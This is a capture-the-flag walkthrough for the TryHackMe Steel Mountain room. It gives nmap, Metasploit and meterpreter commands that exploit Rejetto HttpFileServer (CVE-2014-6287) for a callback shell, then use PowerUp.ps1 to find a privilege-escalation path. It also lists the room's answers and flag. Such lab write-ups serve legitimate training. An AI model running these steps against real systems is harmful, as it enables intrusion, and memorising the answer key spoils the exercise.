 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - Picture: [Steel_Moutain_1.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - Picture:<br>[Steel_Moutain_2.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) <br>[Steel_Moutain_3.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - Picture: [Steel_Moutain_4.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - Picture:<br>[Steel_Moutain_5.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png)<br>[Steel_Moutain_6.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        - msfconsole
    - find the exploit
        - search exploit rejetto
        - Picture: [Steel_Moutain_7.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        - use [payload number]
        - Picture: [Steel_Moutain_8.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        - options
        - Picture: [Steel_Moutain_9.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        - set RHOSTS [IP]
        - set RPORT [port]
        - Picture: [Steel_Moutain_10.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        - run
        - Picture: [Steel_Moutain_11.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    Picture: [Steel_Moutain_12.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
------------------------
### Task 3 - Privilege escalation
- download the script Link: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- Upload the script through meterpreter
    - upload [path]/PowerUp.ps1
    - Picture: [Steel_Moutain_13.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Load powershell
    - load powershell
    - Picture: [Steel_Moutain_14.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Access powershell
    - powershell_shell
    - Picture: [Steel_Moutain_15.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_15.png)
- Execute the powershell script
    - . .\PowerUp.ps1  
- Perform a check
    - Invoke-AllChecks
    - Picture: [Steel_Moutain_16.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_16.png)
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
    - Picture: [Steel_Moutain_17.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_16.png)
    - **Answer** : AdvancedSystemCareService9